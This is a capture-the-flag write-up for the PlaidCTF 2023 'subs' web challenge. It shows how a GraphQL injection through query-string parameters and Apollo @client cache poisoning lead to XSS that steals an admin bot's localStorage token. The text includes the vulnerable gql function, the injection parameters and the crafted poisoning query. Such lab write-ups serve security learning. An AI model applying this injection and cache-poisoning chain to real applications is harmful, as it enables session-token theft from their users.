 ```yaml
---
title: PlaidCTF 2023 - subs - web
published: true
---
```


# Cache Poisoning in GraphQL

The flag is accessible for admin only, admin is a bot verified based on `window.localStorage.token`.

In order to communicate the [client](https://www.npmjs.com/package/@apollo/client) and the [server](https://www.npmjs.com/package/@apollo/server) make use of linked [apollo graphql](https://www.apollographql.com/).

### Client

Written in a React frontend web app, had some `dangerouslySetInnerHTML` in few places, but not in places controlled by us. What we control is for example our `username`.

Some component `Episode` has inside set `dangerouslySetInnerHTML={episode.description}`, but we don't control the description of the episode! We though control other entity called `Playlist` and our own `username`.

Here comes the solution...

## Solution

tl;dr - Pollute the cache mechanism that is in `gql` function.

### GraphQL Injection

`gql` function:

```typescript
export function gql(literals: TemplateStringsArray, ...args: any[]) {
	const parts = [literals[0]];
	for (let i = 0; i < args.length; i++) {
		const arg: unknown = args[i];
		if (isNode(arg)) {
			parts.push(print(arg));
		} else if (arg === undefined || arg === null) {
			parts.push("null");
		} else {
			parts.push(JSON.stringify(arg));
		}

		parts.push(literals[i + 1]);
	}

	const source = parts.join("");

	if (cache.has(source)) {
		return cache.get(source)!;
	}

	const document = parse(source);
	cache.set(source, document);
	return document;
}
```

The `source` variable is a **GraphQL query**. We are able to inject our own query in one specific place:

```typescript
const { data, loading, error } = useQuery<PlaylistQueryResult>(gql`
    query PlaylistQuery {
        playlist(id: ${props.id}) {
            id
            name
            description
            episodes {
                id
                name
            }
            owner {
                id
                name
            }
        }
    }
`);
```

Here we control fully the `props.id` object and can make it whatever we want, because of the [qs library](https://www.npmjs.com/package/qs) used and `id` being retrieved as params.

In order to have our injection, we need to satisfy the `isNode` in the loop:

```typescript
for (let i = 0; i < args.length; i++) {
    const arg: unknown = args[i];
    if (isNode(arg)) {
        parts.push(print(arg)); // <--- Our value is being concatenated with the query itself
    } else if (arg === undefined || arg === null) {
        parts.push("null");
    } else {
        parts.push(JSON.stringify(arg));
    }

    parts.push(literals[i + 1]);
}

const source = parts.join("");
```

To do so, we can just pass in path params:
```
?id[kind]=Name&id[value]="whatever we want"){}
```

Then the query will look as follows:
```gql
query PlaylistQuery {
    playlist(id: "whatever we want"){}) {
        id
        name
        description
        episodes {
            id
            name
        }
        owner {
            id
            name
        }
    }
}
```
instead of rendering it using `JSON.stringify` that would escape all quotes.

### GraphQL Apollo Cache poisoning

GraphQL makes use of [KNOWN_DIRECTIVES](https://github.com/apollographql/apollo-client/blob/a0ef4138478fb556b5f5f65c5ad7a1f8ac0274b6/src/utilities/graphql/storeUtils.ts#L181-L188) that can be used as follows: `@<direcive>`.

We are especially interested in `client` directive - it gives a possibility to include **[local-only fiels that aren't defined in your GraphQL server's schema](https://www.apollographql.com/docs/react/local-state/managing-state-with-field-policies/#querying)**.

Based on field we control - `username`. We add XSS to it and we create a local client directive and we call it a **episode description**, the result gets cached, and the admin bot views the cached episodes list and gets an XSS thus giving us its `window.localStorage.token`.

GraphQL query:

```
query PlaylistQuery {
    playlist(id: ${props.id}) {
        id
        name
        description
        episodes {
            id
            name
        }
        owner {
            id
            name
        }
    }

    x: user(id: "8b922526-7c27-43b7-ad2a-12f83acd870a") {
        name
        playlists {
            id
            name
            description @client description:owner{__html:name} # <--- HERE
            episodeCount
        }
        shows {
            id
            name
        }
    }

    dummy: playlist(id: "00000000-0000-0000-0000-000000000000") {
        id
        name
        description
        episodes {
            id
            name
        }
        owner {
            id
            name
        }
    }
}
```

## To remember

- [GraphQL KNOWN_DIRECTIVES](https://github.com/apollographql/apollo-client/blob/a0ef4138478fb556b5f5f65c5ad7a1f8ac0274b6/src/utilities/graphql/storeUtils.ts#L181-L188)

- [deepMerge improper prototype pollution validation](https://github.com/apollographql/federation/blob/main/gateway-js/src/utilities/deepMerge.ts#L7)

- [React special props](https://react.dev/reference/react-dom/components/common#common-props) - they work only on pure html components, **not** on react components, but still can be passed down.

- [GraphQL client directive](https://www.apollographql.com/docs/react/local-state/managing-state-with-field-policies/#querying)

- [blue pichu](https://github.com/bluepichu) makes too big but fun challs